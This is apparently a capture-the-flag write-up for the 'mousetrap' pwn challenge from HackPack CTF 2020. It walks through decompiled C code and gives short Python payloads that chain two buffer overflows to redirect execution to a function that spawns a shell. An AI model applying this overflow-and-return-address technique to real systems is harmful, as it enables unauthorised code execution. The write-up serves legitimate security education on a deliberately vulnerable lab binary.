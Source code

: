 
## mousetrap (232pt)
### Description

> Are you savvy enough to steal a piece of cheese?
>
> nc cha.hackpack.club 41719

### Attachment

[mousetrap](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/HackPack-CTF-2020/pwn/mousetrap/mousetrap)

### Analysis

When I try to input a long serials of `'a'` I see that:

![](http://image.taqini.space/img/20200429192949.png)

that means some variable was overwritten.

Then analyze the program:

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char v4; // [rsp+10h] [rbp-120h]
  char v5; // [rsp+110h] [rbp-20h]
  __int64 v6; // [rsp+128h] [rbp-8h]

  v6 = 10LL;
  init(*(_QWORD *)&argc, argv, envp);
  menu();
  set_mouse_name(&v5);
  deactivate_trap(&v4, v6);
  grab_cheese(&v4);
  printf("SNAAAAAAAP! you died!");
  return 0;
}
```


```c
ssize_t __fastcall set_mouse_name(void *a1){
  printf("Name: ");
  return read(0, a1, 0x20uLL);
}
```
> read 32  bytes to `v5` while size of `v5` is only 24 bytes
>
> So we can overwrite backward to `v6` with 8 bytes

```c
ssize_t __fastcall deactivate_trap(__int64 a1, __int64 a2){
  size_t nbytes; // ST00_8
  void *buf; // ST08_8

  printf("Enter Code Sequence of %ld: ", a2, a2, a1);
  return read(0, buf, nbytes);
}
```

> In gdb we can see that`v6` is `nbytes` 
>
> We can control the value of `v6` so we can read as **many** as possible bytes to `buf`


```c
char *__fastcall grab_cheese(const char *a1){
  char dest; // [rsp+10h] [rbp-10h]

  return strcpy(&dest, a1);
}
```

> copy `buf` to `dest[0x10]` (buffer overflow again)

```c
int cheeeeeeeese(){
  return system("/bin/sh");
}
```

> When we call `cheeeeese`, we can get an shell.

### Solution

Overwrite `v6/nbytes` with 1000 (enough to overflow `dest`)

```python
payload = 'A'*24
payload += p64(1000)
sea('Name: ',payload)
```

Overwrite return address with `cheeeeese`

```python
cheeeeese = 0x040071B
pl2 = 'B'*24
pl2 += p64(cheeeeese)
sla('Enter Code Sequence of 1000: ',pl2)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/HackPack-CTF-2020/pwn/mousetrap) 


